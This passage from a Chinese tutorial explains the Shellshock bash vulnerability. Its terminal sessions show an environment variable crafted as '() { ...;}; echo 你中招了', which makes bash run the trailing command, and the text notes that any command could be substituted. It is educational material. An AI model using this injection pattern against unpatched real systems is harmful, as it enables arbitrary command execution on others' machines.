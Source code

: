 例如如下脚本:

echo 环境变量X的值是$X
环境变量为X=100，那么合并后相当于:

X=100
echo 环境变量X的值为$X
我们可以通过env这个工具来试试效果，env 的作用就是为即将执行的程序指定环境变量。

[root@localhost ~]# env X=100 bash -c 'echo 环境变量X的值为$X';
环境变量X的值为100
再来构造一个特殊点的环境变量。

[root@localhost ~]# env X='() { echo 我是环境变量;};'  bash -c 'env';
HOSTNAME=localhost.localdomain
.... 省略显示无关环境变量
SSH_CONNECTION=172.16.35.220 60128 172.16.35.135 22
LESSOPEN=|/usr/bin/lesspipe.sh %s
G_BROKEN_FILENAMES=1
X=() {  echo 我是环境变量
}
此时，环境变量X还是一个字符串而已，但是bash把他解释为了一个函数类型而不是一个字符串类型的值。所以可以直接执行这个函数了。如下：

[root@localhost ~]# env X='() { echo 我是环境变量;};'  bash -c 'X';
我是环境变量
此时，bash解释环境变量后转换成的脚本为：

X() { echo 我是环境变量;};
而不是原样照搬为X=(){ echo 我是环境变量;};

可见对于不同的字符串格式的环境变量值，bash有不同的解释方式。

继续让这个X的值更复杂一点，如下：

[root@localhost ~]# env X='() { echo 我是环境变量;}; echo 你中招了'  bash -c 'env'
你中招了
HOSTNAME=localhost.localdomain
SHELL=/bin/bash
SSH_CONNECTION=172.16.35.220 60128 172.16.35.135 22
LESSOPEN=|/usr/bin/lesspipe.sh %s
G_BROKEN_FILENAMES=1
X=() {  echo 我是环境变量
}
_=/bin/env
问题出现了！此时env为bash设置的环境变量X的值为

 () { echo 我是环境变量;}; echo 你中招了
bash把前半部分解释成了函数X的函数体，而把后半部分啥也没做，直接原样转为脚本。解释后的脚本如下：

 X() { echo 我是环境变量;};
 echo 你中招了
合并后的脚本如下：

X() { echo 我是环境变量;};
echo 你中招了
env
这样就会直接执行 echo 你中招了 ，而其实这个命令可以换成任意其他命令，也就达到让bash执行任意命令的目的了。这就是此次bash漏洞的基本原理。
